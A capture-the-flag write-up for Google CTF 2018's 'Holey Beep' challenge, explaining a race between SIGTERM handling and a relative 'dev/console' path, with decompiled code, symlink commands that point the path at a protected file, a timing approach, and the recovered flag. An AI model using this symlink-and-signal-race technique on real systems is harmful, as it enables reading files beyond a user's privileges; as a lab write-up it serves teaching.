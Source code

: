 # Holey Beep

So the challenge tells us about `/secret_cake_recipe` on the last server we've been (the Fridge TODO one) and the executable `holey_beep`.

Also it tells us it's susceptible to the `Holey Beep vulnerability`, which essentially conists of a race condition to call the `sigterm handler` before the current operation is finished, so we still have the needed parameters. 

More about the vulnerability: [description](https://sigint.sh/#/holeybeep), [code](https://gist.github.com/Arignir/0b9d45c56551af39969368396e27abe8)

In our case, the code inside `main` is as follows :

```
...
signal(SIGTERM, handle_sigterm)
for ( i = 1; i < argc; ++i )
{
	device = open("dev/console", 0);
	duration = atoi(argv[1])
	if ( ioctl(device, 0x4B2F, duration) >= 0 )
	{
	  close(device);
	}
	else
	{
	  fprintf(stderr, "ioctl(%d, KIOCSOUND, %d) failed.", device, duration);
	  close(device);
	}
...
}
  
```

1. First it registers a `signal` handler, for `SIGTERM (15)`, which will be `handle_sigterm`
2. Second, it goes through all the command line parameters and tries to communicate with the device `dev/console`. But wait, devices path start with `/dev`, not `dev`, which means we got ourselves a **local directory**, where we can handcraft the path `dev/console` with whatever we want.
3. If the programm gets a `SIGTERM`, it will call `handle_sigterm` and print "debug" information from the device, by reading from it.

```
fprintf(stderr, "ioctl(%d, KIOCSOUND, 0) failed.", device);
memset(&buf, 0, 0x400);
read(device, &buf, 0x400 - 1);
fprintf(stderr, "debug_data: \"%s\"", &buf);
```

That's it with the understanding.
Now, obviously the thing we need to read from and don't have permissions is the file `/secret_cake_recipe`, so it will be safe to assume this needs to be our device.



Let's create a directory where we can dump whatever we want. `/tmp/exploit`
Now:
`mkdir /tmp/exploit/dev`
`ln -s /secret_cake_recipe /tmp/exploit/dev/console`.

Running the `holey_beep` binary from `/tmp/exploit` will read from `/secret_cake_recipe` if everything goes as needed.


So all we need is to get to the `handle_sigterm` function, to read from the device.
But it's not so easy, since the `device` is only open when processing arguments and closed afterwards, so the only window to call the sigterm is:

1. After `device = open("dev/console", 0);`
2. But before `if ( ioctl(device, 0x4B2FuLL, (unsigned int)duration) >= 0 )`

There we have the `atoi` function, that we can overload with some work (as parsing a very big integer) to make a difference.
Since calling the `holey_beep` binary manually would be a mess, lets control our execution with a program that 
1. Branches execution with a `fork`
2. The child runs `/home/user/holey_beep`
3. The parent waits (`usleep`) a set amout of time and then sends `SIGTERM` to the program. We would also want to control the time so let's pass it as a command argument.

I wrote a [C program](https://github.com/beaverden/ctf-writeups/blob/master/GoogleCTF2018/Holey_Beep/program.c) that does that. Also it intentionally slows down the `atoi` function to win some more time.

Now just run an pray with different times until you get it right 

```
$ ./exec 550
ioctl(4, KIOCSOUND, -1) failed.Trying...
Finished
$ ./exec 500
ioctl(4, KIOCSOUND, -1) failed.Trying...
Finished
ioctl(4, KIOCSOUND, 0) failed.debug_data: "== Secret recipe for the CTF{the_cake_wasnt_a_lie} cake ==
...
```

Full text [here](https://github.com/beaverden/ctf-writeups/blob/master/GoogleCTF2018/Holey_Beep/result.txt)

Full script to get access to server and run binary [here](https://github.com/beaverden/ctf-writeups/blob/master/GoogleCTF2018/Holey_Beep/solution.py)